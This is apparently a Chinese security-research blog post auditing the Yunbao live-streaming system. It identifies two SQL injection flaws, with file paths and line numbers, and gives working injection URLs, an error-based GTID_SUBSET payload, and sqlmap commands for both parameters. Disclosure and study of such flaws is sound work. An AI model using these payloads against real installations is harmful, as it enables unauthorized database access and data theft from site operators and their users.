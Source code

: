 ```yaml
---
title:  "[代码审计] 云豹科技直播系统"
date:   2019-07-09 09:06:01 +0800
categories: research
tags: ["代码审计"]
---
```


分享一下云豹科技直播系统的2处前台注入漏洞，[云豹直播系统](http://www.yunbaokj.com/) 采用ThinkCMF框架二次开发。



## VideoController.class.php

文件地址: /application/Appapi/Controller/VideoController.class.php:17

![image.png](https://i.loli.net/2021/02/22/d5UWQPF2rMEKvVZ.png)

代码中17行直接将videoid参数传入SQL执行器查询，导致了报错注入漏洞。

````
漏洞地址: http://localhost.com/index.php?g=Appapi&m=Video&videoid=1%27
````

![image.png](https://i.loli.net/2021/02/22/WPoc6Ihz9CfNnay.png)

程序执行的SQL语句如下：

~~~
 [ SQL语句 ] : SELECT * FROM `cmf_users_video` WHERE ( id=1' ) LIMIT 1
~~~

利用SQLMAP工具输出漏洞，需要闭合前缀括号`1) and 1=1 --+`

~~~
验证漏洞:http://localhost.com/index.php?g=Appapi&m=Video&videoid=1)%20and%201=1%20--+
SQLMAP参数: sqlmap -u http://localhost.com/index.php?g=Appapi&m=Video&videoid=1* –prefix "1)"
~~~

![image.png](https://i.loli.net/2021/02/22/NTlKUJR5voYILZg.png)

## PlaybackController.class.php

文件地址:/application/Home/Controller/PlaybackController.class.php:14

![image.png](https://i.loli.net/2021/02/22/FeP4EKdYT39O2nw.png)

代码14行将传入的touid参数未任何过滤参数直接拼接到SQL执行器。

~~~
漏洞地址:http://localhost.com/index.php?g=Home&m=Playback&touid=1%20AND%20GTID_SUBSET(CONCAT(md5(1340914307)),11)
~~~

![image.png](https://i.loli.net/2021/02/22/QGdZtV9TnF7pfbI.png)

程序SQL执行语句如下:

~~~
 [ SQL语句 ] : SELECT * FROM `cmf_users_liverecord` WHERE ( uid=1 AND GTID_SUBSET(CONCAT(md5(1340914307)),11) )
~~~

利用SQLMAP工具输出漏洞参数

~~~
sqlmap -u "http://localhost.com/index.php?g=Home&m=Playback&touid=1*" --current-user
~~~

![image.png](https://i.loli.net/2021/02/22/eulaziMQy31WnDd.png)





